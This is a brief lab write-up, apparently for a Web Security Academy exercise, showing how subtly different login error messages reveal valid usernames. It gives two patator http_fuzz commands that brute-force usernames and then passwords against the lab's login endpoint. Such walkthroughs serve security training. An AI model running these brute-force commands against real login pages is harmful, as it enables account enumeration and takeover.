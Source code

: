 # Username enumeration via subtly different responses

## First, we start with getting the error message printed out on providing invalid username.
![image](https://user-images.githubusercontent.com/86168235/126815822-a363fb4c-bdc4-4a2f-b9b9-cfed22f51d9e.png)

#### Command used
```
patator http_fuzz url=https://target-acf51fab1ee967598023465100180068.web-security-academy.net/login method=POST body='username=FILE0&password=lkshfklj' \
 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep="Invalid username or password."
```

### Screenshot
![image](https://user-images.githubusercontent.com/86168235/126816042-383c4982-f25a-4e15-a54e-c8d250196d8c.png)

## Next, we provide the valid username with a wrong password and see the error message is a bit off, i.e, without a fullstop.

![image](https://user-images.githubusercontent.com/86168235/126816813-2458788f-e2e3-4c04-91d8-bf0e27197801.png)


#### Command used
```
patator http_fuzz url=https://target-acf51fab1ee967598023465100180068.web-security-academy.net/login method=POST body='username=att&password=FILE0' \   
 0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep="Invalid username or password"
```

### Screenshot

![image](https://user-images.githubusercontent.com/86168235/126816694-8c0ae3ae-b259-4d02-85e0-9fa3633ac03c.png)

